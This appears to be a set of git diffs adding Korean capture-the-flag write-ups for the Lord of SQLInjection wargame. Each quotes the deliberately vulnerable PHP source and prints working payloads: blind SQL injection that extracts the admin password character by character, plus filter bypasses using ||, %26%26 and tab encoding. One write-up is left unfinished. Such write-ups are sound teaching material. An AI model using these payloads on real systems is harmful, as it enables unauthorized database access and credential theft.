

LOS Solve

Changed region(s): [[0.0, 0.0, 1.0, 0.1553], [0.0, 0.1864, 0.3125, 0.4971], [0.0, 0.9942, 1.0, 1.0]]

diff --git a/7. LOS orge.md b/7. LOS orge.md
@@ -1,0 +1,95 @@
+# **LOS orge**
+
+## <img src="./img/key.png" width="25"> **Keys**
+>php source
+```php
+<?php 
+  include "./config.php"; 
+  login_chk(); 
+  dbconnect(); 
+  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
+  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
+  $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; 
+  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
+  $result = @mysql_fetch_array(mysql_query($query)); 
+  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
+   
+  $_GET[pw] = addslashes($_GET[pw]); 
+  $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
+  $result = @mysql_fetch_array(mysql_query($query)); 
+  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 
+  highlight_file(__FILE__); 
+?>
+```
+`4. LOS orc` 문제와 비슷하다. 하지만 `or` 와 `and` 를 검사한다. 이것은 `||` 와 `%26%26` 을 이용하여 우회할 수 있다.  
+설명은 생략하고 바로 문제풀이를 하겠다.
+
+>`pw` 길이 알아내기
+
+`select id from prob_orge where id='guest' and pw='' || id='admin' && length(pw)=8#'`
+
+<img src="./img/orge1.png" width="700">
+
+>`pw` 알아내기
+
+* 6
+
+`select id from prob_orge where id='guest' and pw='' || id='admin' && ascii(substr(pw,1,1))=54#'`
+
+<img src="./img/orge2.png" width="700">
+
+* c
+
+`select id from prob_orge where id='guest' and pw='' || id='admin' && ascii(substr(pw,2,1))=99#'`
+
+<img src="./img/orge3.png" width="700">
+
+* 8
+
+`select id from prob_orge where id='guest' and pw='' || id='admin' && ascii(substr(pw,3,1))=56#'`
+
+<img src="./img/orge4.png" width="700">
+
+* 6
+
+`select id from prob_orge where id='guest' and pw='' || id='admin' && ascii(substr(pw,4,1))=54#'`
+
+<img src="./img/orge5.png" width="700">
+
+* 4
+
+`select id from prob_orge where id='guest' and pw='' || id='admin' && ascii(substr(pw,5,1))=52#'`
+
+<img src="./img/orge6.png" width="700">
+
+* d
+
+`select id from prob_orge where id='guest' and pw='' || id='admin' && ascii(substr(pw,6,1))=100#'`
+
+<img src="./img/orge7.png" width="700">
+
+* e
+
+`select id from prob_orge where id='guest' and pw='' || id='admin' && ascii(substr(pw,7,1))=101#'`
+
+<img src="./img/orge8.png" width="700">
+
+* c
+
+`select id from prob_orge where id='guest' and pw='' || id='admin' && ascii(substr(pw,8,1))=99#'`
+
+<img src="./img/orge9.png" width="700">
+
+## <img src="./img/road.png" width="25"> **Query**
+>Query
+```php
+select id from prob_orge where id='guest' and pw='6c864dec'
+```
+
+>Input value
+```
+http://los.eagle-jump.org/orge_40d2b61f694f72448be9c97d1cea2480.php?pw=6c864dec
+```
+
+## <img src="./img/attack.png" width="25"> **Attack**
+<img src="./img/orge10.png" width="700">

diff --git a/4. LOS orc.md b/4. LOS orc.md
@@ -32,7 +32,11 @@
 
 >`pw` 길이 알아내기
 
+`select id from prob_orc where id='admin' and pw='' or 1 and length(pw)>1#'`
+
 <img src="./img/orc2.png" width="700">
+
+`select id from prob_orc where id='admin' and pw='' or 1 and length(pw)=8#'`
 
 <img src="./img/orc3.png" width="700">
 
@@ -40,35 +44,51 @@
 
 ascii 를 이용해서 참이 되는 값의 범위를 천천히 줄여가면서 찾아야 한다.   
 
->>2
+* 2
+
+`select id from prob_orc where id='admin' and pw='' or id='admin' and ascii(substr(pw,1,1))=50#'`
 
 <img src="./img/orc5.png" width="700">
 
->>9
+* 9
+
+`select id from prob_orc where id='admin' and pw='' or id='admin' and ascii(substr(pw,2,1))=57#'`
 
 <img src="./img/orc6.png" width="700">
 
->>5
+* 5
+
+`select id from prob_orc where id='admin' and pw='' or id='admin' and ascii(substr(pw,3,1))=53#'`
 
 <img src="./img/orc7.png" width="700">
 
->>d
+* d
+
+`select id from prob_orc where id='admin' and pw='' or id='admin' and ascii(substr(pw,4,1))=100#'`
 
 <img src="./img/orc8.png" width="700">
 
->>5
+* 5
+
+`select id from prob_orc where id='admin' and pw='' or id='admin' and ascii(substr(pw,5,1))=53#'`
 
 <img src="./img/orc9.png" width="700">
 
->>8
+* 8
+
+`select id from prob_orc where id='admin' and pw='' or id='admin' and ascii(substr(pw,6,1))=56#'`
 
 <img src="./img/orc10.png" width="700">
 
->>4
+* 4
+
+`select id from prob_orc where id='admin' and pw='' or id='admin' and ascii(substr(pw,7,1))=52#'`
 
 <img src="./img/orc11.png" width="700">
 
->>4
+* 4
+
+`select id from prob_orc where id='admin' and pw='' or id='admin' and ascii(substr(pw,8,1))=52#'`
 
 <img src="./img/orc12.png" width="700">
 

diff --git a/5. LOS wolfman.md b/5. LOS wolfman.md
@@ -1,0 +1,35 @@
+# **LOS wolfman**
+
+## <img src="./img/key.png" width="25"> **Keys**
+>php source
+```php
+<?php 
+  include "./config.php"; 
+  login_chk(); 
+  dbconnect(); 
+  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
+  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
+  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
+  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
+  $result = @mysql_fetch_array(mysql_query($query)); 
+  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
+  if($result['id'] == 'admin') solve("wolfman"); 
+  highlight_file(__FILE__); 
+?>
+```
+`if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~");` 에서 `space` 를 검사한다. 따라서 `space`대신 `Tab`을 이용해 `Tab`의 hex 값인 `%09` 를 이용하여 쿼리를 보내면 된다.
+
+## <img src="./img/road.png" width="25"> **Query**
+>Query
+```php
+select id from prob_wolfman where id='guest' and pw='1'	or	id='admin'
+```
+
+>Input value
+```
+http://los.eagle-jump.http://los.eagle-jump.org/wolfman_f14e72f8d97e3cb7b8fe02bef1590757.php?pw=1%27%09or%09id=%27admin
+```
+`%09` 은 `Tab` 이고, `%27` 은 `'` 이다.
+
+## <img src="./img/attack.png" width="25"> **Attack**
+<img src="./img/wolfman1.png" width="700">

diff --git a/8. LOS troll.md b/8. LOS troll.md
@@ -1,23 +1,25 @@
-# **LOS gramlin**
+# **LOS troll**
 
 ## <img src="./img/key.png" width="25"> **Keys**
 >php source
 ```php
-<?php
-  include "./config.php";
-  login_chk();
-  dbconnect();
-  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
-  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
-  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
+<?php  
+  include "./config.php"; 
+  login_chk(); 
+  dbconnect(); 
+  if(preg_match('/\'/i', $_GET[id])) exit("No Hack ~_~");
+  if(@ereg("admin",$_GET[id])) exit("HeHe");
+  $query = "select id from prob_troll where id='{$_GET[id]}'";
   echo "<hr>query : <strong>{$query}</strong><hr><br>";
   $result = @mysql_fetch_array(mysql_query($query));
-  if($result['id']) solve("gremlin");
+  if($result['id'] == 'admin') solve("troll");
   highlight_file(__FILE__);
 ?>
 ```
-`admin` 으로 `login` 하는 문제이다. 따라서 `id` 에는 `admin` 을 넣고 `pw` 부분을 참으로 만들면 된다.  
-`id = admin` , `pw = 0 or 1`
+`if(@ereg("admin",$_GET[id])) exit("HeHe");` 에서 `admin` 이라는 문자열을 검사한다.
+
+**● erge 함수 취약점**
+
 
 ## <img src="./img/road.png" width="25"> **Query**
 >Query

diff --git a/6. LOS darkelf.md b/6. LOS darkelf.md
@@ -1,0 +1,33 @@
+# **LOS darkelf**
+
+## <img src="./img/key.png" width="25"> **Keys**
+>php source
+```php
+<?php 
+  include "./config.php"; 
+  login_chk(); 
+  dbconnect();  
+  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
+  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
+  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'"; 
+  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
+  $result = @mysql_fetch_array(mysql_query($query)); 
+  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
+  if($result['id'] == 'admin') solve("darkelf"); 
+  highlight_file(__FILE__); 
+?>
+```
+`if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe");` 에서 `and`와 `or` 을 검사한다. 따라서 `or` 과 같은 뜻인 `||` , `and` 와 같은 뜻인 `&` 의 hex 코드값인 `%26`를 사용하여 쿼리를 보내면 된다.
+## <img src="./img/road.png" width="25"> **Query**
+>Query
+```php
+select id from prob_darkelf where id='guest' and pw='1' || id='admin'
+```
+
+>Input value
+```
+http://los.eagle-jump.org/darkelf_6e50323a0bfccc2f3daf4df731651f75.php?pw=1%27%20||%20id=%27admin
+```
+
+## <img src="./img/attack.png" width="25"> **Attack**
+<img src="./img/gremlin1.png" width="700">
